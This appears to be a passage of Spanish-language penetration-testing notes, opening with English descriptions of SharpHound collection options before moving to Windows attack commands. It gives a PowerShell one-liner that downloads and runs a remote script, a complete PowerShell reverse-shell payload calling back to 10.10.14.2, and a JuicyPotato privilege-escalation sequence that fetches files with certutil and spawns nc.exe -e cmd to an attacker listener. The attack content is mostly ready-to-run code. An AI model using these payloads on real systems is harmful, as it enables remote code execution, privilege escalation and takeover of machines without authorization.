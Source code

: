     CollectionMethods - Determines what kind of data Sharphound would collect. The most common options are Default or All. Also, since Sharphound caches information, once the first run has been completed, you can only use the Session collection method to retrieve new user sessions to speed up the process.
    Domain - Here, we specify the domain we want to enumerate. In some instances, you may want to enumerate a parent or other domain that has trust with your existing domain. You can tell Sharphound which domain should be enumerated by altering this parameter.
    ExcludeDCs -This will instruct Sharphound not to touch domain controllers, which reduces the likelihood that the Sharphound run will raise an alert.

Los parámetros de Sharphound se encuentran en https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html

Descarga de archivos con powershell

```powershell
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2:9001/shell.ps1')
```

.bat Para ejecutar el comando anterior
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## [](#header-2)<a id="Privilege_escalation">Privilege escalation</a>
Manualmente, tenemos el comando whoami, pero en esta ocacion con los privilegios posibles:
```s
whoami /all
whoami /priv
```
En este ejemplo 1 tenemos como respuesta el privilegio de SeImpersonatePrivilege, el cual se explota de la forma:

```s
#Descargamos Juicy Potato de github, esta herramienta nos va a permitir inyectar comandos privilegiados
git clone https://github.com/ohpe/juicy-potato.git
#Descargamos el netcan de x64 o x86 
#Abrimos un servidor de python para traernos los archivos
python3 -m http.server 8080

#Nos descargamos los archivos en la victima con
certutil.exe -f -urlcache -split http://10.10.14.29:8080/[Archivos]

#Usamos JuicyPotato con -l {Puerto que sea}, y en este caso abriremos un cmd privilegiado, -a pasandole los argumentos de 
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.29 4646"

#Nos ponemos en escucha desde la maquina atacante
nc -nlvp 4646
```
